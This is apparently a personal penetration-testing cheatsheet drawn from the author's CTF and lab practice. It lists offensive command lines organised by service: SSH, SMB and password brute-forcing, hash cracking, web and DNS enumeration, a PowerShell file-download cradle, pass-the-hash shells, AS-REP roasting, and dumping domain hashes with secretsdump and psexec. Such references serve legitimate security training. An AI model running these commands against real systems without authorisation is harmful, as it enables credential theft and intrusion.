# pentest cheatsheet

> personal cheathsheet populated via my [HTB](https://www.hackthebox.eu/), [Vulnhub](https://www.vulnhub.com/) and CTF experience.

## Summary

1. [Common tasks](#common-tasks)
2. [Common services/ports](#common-servicesports)
3. [Windows](#windows)
4. [Linux](#linux)

___

## Common tasks

- Spawning TTY Shell: `python -c 'import pty; pty.spawn("/bin/bash")'`
- Running an HTTP Server: `python3 -m http.server`
- Password "cracking": `hashcat -m $ATTACK_MODE $FILE /usr/share/wordlists/rockyou.txt`

## Common services/ports

### Port 21 (FTP)

`ftp $TARGET`

- [ ] Check if you can log in as `annonymous`

### Port 22 (SSH)

- Connect to remote server with private key: `ssh -i $KEY_FILE $USER@$TARGET`
- Fix common key exchange issue: `ssh -oKexAlgorithms=+diffie-hellman-group1-sha1`
- Port forwarding: `ssh -L $LPORT:$TARGET:$RPORT $USER@$TARGET`

- **SCP**:
	+ Copy a local file to a remote host: `scp $LFILE $USER@$TARGET:$RFILE`
	+ Copy a file from a remote host to a local directory: `scp $USER@$TARGET:$RFILE $LDIR`
	
#### Bruteforce

- Bruteforce private key:

```bash
$ /usr/share/john/ssh2john.py id_rsa.bak > $USER.john
$ john $USER.john --wordlist=/usr/share/wordlists/rockyou.txt
```

- Bruteforce connection:
	+ **medusa**: `medusa -h $TARGET -U $USER_WORDLIST -P $PASSWORD_WORDLIST -M ssh`
	+ **hydra**: `hydra -L $USER_WORDLIST -P $PASSWORD_WORDLIST $TARGET ssh`

### Port 79 (Finger)

- [Pentestmonkey script]() :`./finger-user-enum.pl -U $USERNAME_WORDLIST -t $TARGET`
- Metasploit module: `use auxiliary/scanner/finger/finger_users`

> [Hacktricks - pentesting finger](https://book.hacktricks.xyz/pentesting/pentesting-finger)

### Port 80/443 (HTTP/HTTPS)

1. Looking for "hidden" directories/files:

```bash
# dirb
$ dirb http://$IP -o dirb.txt

# gobuster
$ gobuster dir -u http://$IP -w /usr/share/dirb/wordlists/common.txt -o gobuster.txt
```

- specific extension: 

```bash
# dirb
$ dirb http://$IP -X .<extension> -o dirb.txt

# gobuster
$ gobuster dir -u http://$IP -w /usr/share/dirb/wordlists/common.txt -x .<ext(s)> -o gobuster.txt
```

- ignore SSL error (gobuster): `gobuster dir -u https://$IP -w /usr/share/dirb/wordlists/common.txt -o gobuster.txt -k`
	
2. Looking for subdmains:

`gobuster dns -d $DOMAIN -w $WORDLIST`

3. Bruteforce GET/POST

> **_TODO_** ...

### Port 139/445 (SMB - Samba)

- Listing directories: `smbclient -L //<IP>/<Sharename> -U "username%password"`
- (Recursive search) Listing directories and permissions: `smbmap -H $TARGET -R | tee smbmap.txt`
- "Manual" bruteforce: `for u in $(cat usernames.txt); do echo "User: $u"; smbclient -L //<IP>/ -U "$u%$u"; done`

### Port 389 (LDAP)

- `ldapsearch -h <IP> -x -s base namingcontexts` 
- `ldapsearch -h <IP> -x -b "<distinguishedName>" | grep "^dn"`

___

## Windows

- [VbScrub - Tutorials](https://www.youtube.com/playlist?list=PL3B8L-z5QU-Yw80HOGXXUASBfv_K1WwO5)

### Tools

- [dnSpy](https://github.com/0xd4d/dnSpy#dnspy---latest-release---%EF%B8%8F-donate): debugger and .NET assembly editor.
- [BloodHound](https://github.com/BloodHoundAD/Bloodhound/wiki): reveal the hidden and often unintended relationships within an Active Directory environment. 
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit): PowerShell Post-Exploitation Framework

### Downloading files (alternative to `wget`)

> `c:\Windows\System32\spool\drivers\color\$FILE` is a wolrd-writeable directory.

```powershell
powershell -command "(new-object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$FILE', 'c:\Windows\System32\spool\drivers\color\$FILE')"
```

### Shell

`gem install evil-winrm`

- `evil-winrm -i <ip> -u <username> -p <password>`
- PassTheHash: `evil-winrm -i <ip> -u <username> -H <NTLM_HASH>`

```powershell
*Evil-WinRM* PS C:\> NET USER # list users
```

### Kerberos

- `python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <distinguishedName>/<username> -request -dc-ip <IP> [-no-pass -usersfile users.txt]`
- Kerberos 5 AS-REP etype 23 `hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`. See [hashcat wiki](https://hashcat.net/wiki/doku.php?id=hashcat) and [**hackndo** - kerberos as-rep roasting (fr)](https://beta.hackndo.com/kerberos-asrep-roasting/)

### Privesc

> _`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`_

1. `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc-ntlm <domainName>/<admin-user>@<IP>`
2. `python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes <NTLMhash> administrator@<IP> cmd.exe`

### Port 135 (RPC)

```bash
rpcclient -U "" $IP
<empty password>
rpcclient $> srvinfo       # identify the specific OS version
rpcclient $> enumdomusers  # display a list of users names defined on the server
rpcclient $> getdompwinfo  # get SMB password policy
rpcclient $> querydispinfo # get users info
```

### Post-exploitation

#### Tools

- [LOLBAS](https://lolbas-project.github.io/#)
	+ [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup): offline command line lookup utility
- [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite#peass---privilege-escalation-awesome-scripts-suite)
	+ [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [mimikatz](https://github.com/gentilkiwi/mimikatz#mimikatz)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit): PowerShell Post-Exploitation Framework

___

## Linux

`sudo -l`

> **TODO**...

### Post-exploitation

- [GTFOBins](https://gtfobins.github.io/)
- [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite#peass---privilege-escalation-awesome-scripts-suite)
	+ [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
